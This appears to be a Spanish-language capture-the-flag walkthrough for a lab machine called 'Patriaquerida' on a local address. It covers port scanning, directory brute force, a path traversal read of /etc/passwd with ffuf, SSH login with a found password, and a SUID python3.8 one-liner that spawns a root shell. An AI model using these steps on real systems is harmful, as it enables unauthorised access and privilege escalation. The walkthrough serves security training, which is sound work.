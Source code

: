 ```yaml
---
description: '✍️ Autor: JuanR🔍 Dificultad: Fácil 📅 Fecha de creación: 12/01/2025'
---
```


# Patriaquerida

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/imagen (1).png" alt=""><figcaption></figcaption></figure>

En el puerto 80 corre la página por defecto de Apache por lo que realizamos un escaneo de directorios.

<figure><img src="../../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Observamos que se encuentra un archivo llamado **index.php**, así que procederemos a explorar el contenido de esa ruta.

<figure><img src="../../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Nos indican directamente dónde buscar, así que accedemos a la ruta: **172.17.0.2/.hidden\_pass**.

<figure><img src="../../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

Encontramos lo que parece ser una contraseña: **balu**.

### 🚀 **EXPLOTACIÓN**

Dado que existen rutas visibles, utilizaremos **FFUZ** para explorar más a fondo. Tal como se muestra en la imagen, el servidor es vulnerable a **Path Traversal**, lo que nos permite acceder al archivo **/etc/passwd**.

```bash
ffuf -u "http://172.17.0.2/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt -fw 12
```

<figure><img src="../../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Con la contraseña **balu** nos podemos loguear con el usuario **pinguino**.

```bash
ssh pinguino@172.17.0.2
```

<figure><img src="../../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Indagando encontramos la contraseña del usuario **mario** por lo que pivotamos a él.

<figure><img src="../../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Al buscar permisos **SUID** encontramos que tenemos con **python3.8**.

```
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}

```bash
/usr/bin/python3.8 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

<figure><img src="../../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>
